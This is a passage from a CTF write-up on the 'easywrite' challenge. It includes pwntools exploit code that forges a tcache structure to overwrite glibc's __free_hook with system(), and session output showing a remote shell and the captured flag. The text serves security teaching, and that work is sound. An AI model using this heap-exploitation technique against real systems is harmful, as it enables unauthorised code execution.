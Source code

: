 After spending an hour or so staring at ROP gadgets<sup>6</sup> and potential one_gadget alternatives, I realised the rather obvious exploit path I was missing.

`__free_hook(ptr)` is called with the `ptr` to be freed, which happens to be memory that we're in control of. Why not just jump to `system()`, and put `"/bin/sh"` at the front of the allocated memory?
```python
fake_tcache = tcache_perthread_struct({free_hook-0x8: SIZE})    # -8 to store /bin/sh
r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))
r.interactive()
```
```python
[*] Switching to interactive mode
$ echo hello
[DEBUG] Sent 0xb bytes:
    b'echo hello\n'
[DEBUG] Received 0x6 bytes:
    b'hello\n'
hello
$
```
It worked.
```
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ f
```
...locally. Not on remote.

Long story short, I was using `ld-linux.so --library-path` to simulate the remote `libc-2.31.so` environment, but `ld-linux` doesn't provide a *perfect* subsitute for running the actual libc bare-metal<sup>7</sup>.

Luckily, I had a machine with an extremely similar version of libc available. Debugging on that machine, I realised that the value of the `tcache_pointer` I had calculated earlier was off by 0x40 bytes:
```python
tcache_pointer = 0x7facf8666530-0x00007facf8473000+context.libc.address-0x40
```
With that, we're finally done.
```python
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
$ ls
bin
dev
easywrite
flag
lib
lib32
lib64
libx32
run.sh
usr
$ cat flag
n1ctf{09b1e57ba44889be4f9ec8feee88b3be}
$
```
## Full code
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
```